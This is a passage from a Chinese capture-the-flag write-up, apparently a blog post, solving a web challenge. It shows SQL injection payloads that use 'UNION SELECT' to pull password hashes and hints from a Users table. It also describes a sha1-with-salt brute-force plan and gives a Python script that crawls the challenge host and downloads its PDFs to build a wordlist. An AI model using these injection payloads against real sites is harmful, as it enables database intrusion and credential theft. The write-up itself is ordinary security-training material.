 `usr=%27 UNION SELECT id, password from Users limit 0,1--`
![](https://img-blog.csdnimg.cn/20200327223245146.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
`usr=%27 UNION SELECT id, hint from Users limit 0,1--`
![](https://img-blog.csdnimg.cn/20200327223435593.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
登陆的话应该需要利用sha1函数和salt找出密码，密码就藏在教授的论文中，所以我们需要爬取站点所有pdf并转换为txt，逐一比对进行爆破
使用师傅脚本爬取pdf：
```python
import urllib.request
import re

allHtml=[]
count=0
pat_pdf=re.compile("href=\"[0-9a-z]+.pdf\"")
pat_html=re.compile("href=\"[0-9]/index\.html\"")


def my_reptile(url_root,html):
	global pat_pdf
	global pat_html
	html=url_root+html
	
	if(isnew(html)):
		allHtml.append(html)
		
		print("[*]starting to crawl site:{}".format(html))
		with urllib.request.urlopen(html) as f:
			response=f.read().decode('utf-8')
			
		pdf_url=pat_pdf.findall(response)
		for p in pdf_url:
			p=p[6:len(p)-1]
			download_pdf(html+p)
			
		html_url=pat_html.findall(response)
		for h in html_url:
			h=h[6:len(h)-11]
			my_reptile(html,h)
		
def download_pdf(pdf):
	global count
	
	fd=open(str(count)+'.pdf','wb')
	count+=1
	
	print("[+]downloading pdf from site:{}".format(pdf))
	with urllib.request.urlopen(pdf) as f:
		fd.write(f.read())
	fd.close()
	
def isnew(html):
	global allHtml
	for h in allHtml:
		if(html==h):
			return False
	return True


if __name__=="__main__":
	my_reptile("http://111.198.29.45:54969//",'')

```
![](https://img-blog.csdnimg.cn/20200327224429130.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
